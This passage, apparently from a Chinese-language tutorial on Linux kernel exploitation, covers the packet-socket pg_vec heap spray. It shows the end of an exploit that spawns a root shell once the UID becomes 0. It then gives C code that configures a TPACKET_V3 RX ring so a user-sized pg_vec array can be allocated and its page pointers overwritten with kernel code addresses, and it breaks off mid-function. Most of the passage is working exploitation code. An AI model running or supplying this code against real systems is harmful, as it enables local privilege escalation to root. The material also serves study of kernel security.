 ```c
        if (!getuid())
        {
            get_root_shell();
        }
        exit(0);
    }
    
}
```

### 分配虚拟内存数组

在`alloc_pg_vec`函数中，主要内存从该行分配：

```c
pg_vec = kcalloc(block_nr, sizeof(struct pgv), GFP_KERNEL | __GFP_NOWARN);    
```

其中，`sizeof(struct pgv)`的值为`8`。幸运的是，`block_nr`也是用户可以控制的，因此我们可以使用如下板子来分配一个任意大小的`pg_vec`数组（这个数组里面的所有`pg`都要被覆盖为内核代码段的地址）：

```c
#define PGV_PAGE_NUM 1000
#define PACKET_RX_RING 5
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req
{
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

struct tpacket_req3 {
	unsigned int	tp_block_size;	/* Minimal size of contiguous block */
	unsigned int	tp_block_nr;	/* Number of blocks */
	unsigned int	tp_frame_size;	/* Size of frame */
	unsigned int	tp_frame_nr;	/* Total number of frames */
	unsigned int	tp_retire_blk_tov; /* timeout in msecs */
	unsigned int	tp_sizeof_priv; /* offset to private data area */
	unsigned int	tp_feature_req_word;
};

/* tpacket version for setsockopt */
enum tpacket_versions
{
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

#ifndef ETH_P_ALL
#define ETH_P_ALL 0x0003
#endif


void packet_socket_rx_ring_init(int s, unsigned int block_size,
                                unsigned int frame_size, unsigned int block_nr,
                                unsigned int sizeof_priv, unsigned int timeout) {
    int v = TPACKET_V3;
    int rv = setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));
    if (rv < 0) {
        puts("[X] setsockopt(PACKET_VERSION)");
```